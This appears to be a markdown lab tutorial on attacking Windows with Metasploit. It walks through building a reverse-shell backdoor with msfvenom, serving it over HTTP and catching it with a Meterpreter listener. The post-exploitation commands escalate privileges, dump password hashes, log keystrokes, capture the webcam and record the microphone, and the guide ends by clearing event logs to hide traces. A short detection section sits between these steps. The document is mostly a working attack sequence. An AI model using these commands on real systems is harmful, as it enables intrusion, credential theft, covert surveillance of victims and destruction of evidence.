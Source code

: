 ### **Hacking Windows Using Metasploit / Meterpreter - Post-Exploitation**
This guide will take you through setting up a controlled environment, exploiting a Windows machine, and performing post-exploitation tasks using Metasploit and Meterpreter.

---

## **🔹 Step 1: Set Up Your Lab**
To ensure a safe hacking environment, we will use virtual machines.

### **Requirements**
- **Kali Linux VM** (Attacker)
- **Windows VM** (Target)
- **Virtualization software**: VMware or VirtualBox
- **Network Mode**: Ensure both machines are on the same NAT or Host-Only Network.

---

## **🔹 Step 2: Generate a Malicious Payload**
We will create a malicious backdoor using **msfvenom**, which generates a reverse shell.

### **Open a terminal in Kali Linux and run:**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your Kali IP> LPORT=4444 -f exe > backdoor.exe
```
- Replace `<Your Kali IP>` with the IP address of your Kali machine.
- The **LPORT** (Listening Port) is set to **4444** (you can change it).

### **Transfer the payload to the Windows VM**
Use one of these methods:
1. **Python HTTP Server** (Fastest way)
   ```bash
   python3 -m http.server 8080
   ```
   On the Windows machine, open a browser and download the payload:
   ```
   http://<Kali IP>:8080/backdoor.exe
   ```
2. **USB or Shared Folder** (If allowed in VM settings)

---

## **🔹 Step 3: Start a Metasploit Listener**
Launch Metasploit on Kali:
```bash
msfconsole
```
Set up the listener:
```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <Your Kali IP>
set LPORT 4444
exploit
```
This will wait for the Windows machine to execute `backdoor.exe`.

---

## **🔹 Step 4: Exploit the Windows 10 Machine**
On the Windows VM:
1. **Run the payload** (`backdoor.exe`).
2. **Check the Kali terminal** – A Meterpreter session should open.

Confirm the session:
```bash
sessions -i
```

---

## **🔹 Step 5: Post-Exploitation**
Now that we have access, we can explore the Windows machine.

### **1️⃣ Check System Info**
```bash
sysinfo
```

### **2️⃣ Get User Privileges**
```bash
getuid
```

### **3️⃣ Escalate Privileges (If Needed)**
```bash
run post/windows/escalate/getsystem
```

### **4️⃣ Dump Password Hashes**
```bash
hashdump
```

### **5️⃣ Enable Keylogging**
```bash
keyscan_start
```
Retrieve keystrokes:
```bash
keyscan_dump
```

### **6️⃣ Capture Webcam**
```bash
webcam_snap
```

### **7️⃣ Record Microphone Audio**
```bash
record_mic -d 10
```
(Records for 10 seconds)

---

## **🔹 Step 6: Detect & Prevent Backdoors**
After testing, it's important to analyze how to detect such attacks.

### **1️⃣ Check Active Network Connections**
On Windows:
```powershell
netstat -ano
```
- Look for **suspicious connections to your Kali machine's IP**.

### **2️⃣ Identify Running Malicious Processes**
```powershell
tasklist /v
```
- Look for unusual processes (e.g., `backdoor.exe`).

### **3️⃣ Scan for Persistence Mechanisms**
Check **Registry Startup Entries**:
```powershell
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
```

Check **Scheduled Tasks**:
```powershell
schtasks /query /fo LIST /v
```

### **4️⃣ Detect File Changes**
Run this in PowerShell:
```powershell
Get-EventLog -LogName Security -Newest 50
```

### **5️⃣ Use Windows Defender & Antivirus**
To remove the payload:
```powershell
del C:\Users\Public\backdoor.exe
```
Run a Defender scan:
```powershell
Start-MpScan -ScanType QuickScan
```

---

## **🔹 Step 7: Clean Up the Attack**
If you want to clear your traces:
1. **Clear Event Logs**
   ```bash
   meterpreter > clearev
   ```
2. **Kill the process**
   ```bash
   ps
   kill <PID>
   ```
3. **Exit Meterpreter**
   ```bash
   exit
   ```
